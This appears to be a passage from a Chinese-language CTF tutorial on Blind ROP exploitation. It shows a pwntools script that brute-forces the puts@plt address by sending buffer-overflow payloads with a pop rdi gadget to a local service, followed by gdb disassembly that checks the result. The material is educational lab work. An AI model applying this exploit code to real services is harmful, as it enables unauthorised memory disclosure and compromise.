 #### puts@plt
plt 表具有比较规整的结构，每一个表项都是 16 字节，而在每个表项的 6 字节偏移处，是该表项对应函数的解析路径，所以先得到 plt 地址，然后 dump 出内存，就可以找到 got 地址。

这里我们使用 puts 函数来 dump 内存，比起 write，它只需要一个参数，很方便：
```python
def get_puts_plt(buf_size, stop_addr, gadgets_addr):
    pop_rdi = gadgets_addr + 9      # pop rdi; ret;
    addr = stop_addr
    while True:
        sleep(0.1)
        addr += 1

        payload  = "A"*buf_size
        payload += p64(pop_rdi)
        payload += p64(0x400000)
        payload += p64(addr)
        payload += p64(stop_addr)
        try:
            p = remote('127.0.0.1', 10001)
            p.recvline()
            p.sendline(payload)
            if p.recv().startswith("\x7fELF"):
                log.info("puts@plt address: 0x%x" % addr)
                p.close()
                return addr
            log.info("bad: 0x%x" % addr)
            p.close()
        except EOFError as e:
            p.close()
            log.info("bad: 0x%x" % addr)
        except:
            log.info("Can't connect")
            addr -= 1
```
这里让 puts 打印出 `0x400000` 地址处的内容，因为这里通常是程序头的位置（关闭PIE），且前四个字符为 `\x7fELF`，方便进行验证。
```
[*] puts@plt address: 0x4005e7
```
成功找到一个地址，它确实调用 puts，打印出了 `\x7fELF`，那它真的就是 puts@plt 的地址吗，不一定，看一下呗，反正我们有二进制文件。
```
gdb-peda$ disassemble /r 0x4005f0
Dump of assembler code for function puts@plt:
   0x00000000004005f0 <+0>:     ff 25 22 0a 20 00       jmp    QWORD PTR [rip+0x200a22]        # 0x601018
   0x00000000004005f6 <+6>:     68 00 00 00 00  push   0x0
   0x00000000004005fb <+11>:    e9 e0 ff ff ff  jmp    0x4005e0
End of assembler dump.
```
不对呀，puts@plt 明明是在 `0x4005f0`，那么 `0x4005e7` 是什么鬼。
```
gdb-peda$ pdisass /r 0x4005e7,0x400600
Dump of assembler code from 0x4005e7 to 0x400600:
   0x00000000004005e7:  25 24 0a 20 00  and    eax,0x200a24
   0x00000000004005ec:  0f 1f 40 00     nop    DWORD PTR [rax+0x0]
   0x00000000004005f0 <puts@plt+0>:     ff 25 22 0a 20 00       jmp    QWORD PTR [rip+0x200a22]        # 0x601018
   0x00000000004005f6 <puts@plt+6>:     68 00 00 00 00  push   0x0
   0x00000000004005fb <puts@plt+11>:    e9 e0 ff ff ff  jmp    0x4005e0
End of assembler dump.
```
原来是由于反汇编时候的偏移，导致了这个问题，当然了前两句对后面的 puts 语句并没有什么影响，忽略它，在后面的代码中继续使用 `0x4005e7`。
